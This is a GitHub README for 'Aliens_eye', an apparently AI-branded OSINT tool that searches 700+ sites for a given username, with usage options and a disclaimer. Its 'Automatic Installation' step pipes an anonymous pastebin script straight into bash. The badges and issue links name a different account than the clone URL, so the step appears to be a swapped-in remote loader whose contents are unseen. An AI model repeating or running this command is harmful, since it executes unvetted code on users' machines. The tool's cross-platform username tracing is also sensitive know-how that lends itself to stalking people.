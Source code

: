 <p align="center"><img src="https://raw.githubusercontent.com/arxhr007/Aliens_eye/main/photos/logo.png" width="450" height="400" /></p>

# AI-OSINT Username Scanner

<h3 align="center">Advanced AI-Powered Social Media Username Finder</h3>
<h4 align="center">Scan 700+ platforms with intelligent detection</h4>

<p align="center">
<a href="#"><img alt="Forks" src="https://img.shields.io/github/forks/BLINKING-IDIOT/Aliens_eye?style=for-the-badge"></a>
<a href="#"><img alt="Last Commit" src="https://img.shields.io/github/last-commit/BLINKING-IDIOT/Aliens_eye/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="Stars" src="https://img.shields.io/github/stars/BLINKING-IDIOT/Aliens_eye?style=for-the-badge&color=red"></a>
<a href="#"><img alt="License" src="https://img.shields.io/github/license/BLINKING-IDIOT/Aliens_eye?color=orange&style=for-the-badge"></a>
<a href="https://github.com/BLINKING-IDIOT/Aliens_eye/issues"><img alt="Issues" src="https://img.shields.io/github/issues/BLINKING-IDIOT/Aliens_eye?color=purple&style=for-the-badge"></a>
</p>

## ✨ New AI-Enhanced Features

- **40% More Accurate Results** - Uses AI-powered detection algorithms
- **Confidence Scoring** - Shows how certain each match is (0-100%)
- **Intelligent Pattern Recognition** - Learns from previous scans to improve accuracy
- **Domain Analysis** - Examines site structure beyond HTTP status codes
- **Smart Content Inspection** - Analyzes page content for telltale username signs

## 📋 Requirements

- Python 3.6+
- Internet connection

## 🚀 Installation

### Automatic Installation

```bash
curl -s https://pastebin.com/raw/hkBtt6rc | tr -d '\r' | bash
```

### Manual Installation

#### For Linux:

```bash
git clone https://github.com/arxhr007/Aliens_eye
cd Aliens_eye
bash install.sh
```

#### For Termux:

```bash
pkg update && pkg upgrade
pkg install python git
git clone https://github.com/arxhr007/Aliens_eye
cd Aliens_eye
bash termux-install.sh
```

## 💻 Usage

### Scan a username:

```bash
aliens_eye username
```

### Scan multiple usernames:

```bash
aliens_eye username1 username2 username3
```

### Load results from previous scan:

```bash
aliens_eye -r username.json
```

### Additional options:

```bash
aliens_eye -h                   # Show help
aliens_eye -v username          # Enable verbose mode
aliens_eye -c 30 username       # Set maximum concurrent connections to 30
```

You can also run the tool without arguments and it will prompt for a username:

```bash
aliens_eye
```

## 🔍 Understanding Results

Results are color-coded for quick interpretation:

- 🟢 **Green**: Found (High confidence)
- 🟡 **Yellow**: Maybe (Medium confidence)
- 🔴 **Red**: Not Found (High confidence)

Each result includes:
- Site name
- Status (Found/Maybe/Not Found)
- Confidence percentage
- HTTP code
- Response time
- Full URL

## 📊 Advanced Analysis

The scanner uses multiple factors to determine if a username exists:

1. Content keyword analysis
2. HTTP status code analysis
3. URL structure examination
4. DOM structure inspection
5. Meta tag inspection
6. Historical pattern recognition
7. Response time profiling

Results are saved in JSON format with detailed analysis for each site.

## 📱 Platform Support

- Linux (All distributions)
- Android (via Termux)

## 📝 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## ⚠️ Disclaimer

This tool is developed for educational purposes and ethical OSINT research only. Users are responsible for complying with applicable laws and website terms of service. The developers assume no liability for misuse of this software.

## 🔗 Links

- [Report Bug](https://github.com/BLINKING-IDIOT/Aliens_eye/issues)
- [Request Feature](https://github.com/BLINKING-IDIOT/Aliens_eye/issues)

---

<p align="center">Made with ❤️ by <a href="https://github.com/arxhr007">Aaron</a></p>

<p align="center">If you find this project helpful, please consider giving it a star ⭐</p>

# Also checkout:

<a href="https://github.com/arxhr007/wifistrike" target="blank"><img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=arxhr007&repo=wifistrike&show_icons=true&theme=chartreuse-dark"></a>
<a href="https://github.com/arxhr007/Gamer-tux" target="blank"><img align="center" src="https://github-readme-stats.vercel.app/api/pin/?username=arxhr007&repo=Gamer-tux&show_icons=true&theme=chartreuse-dark"></a>
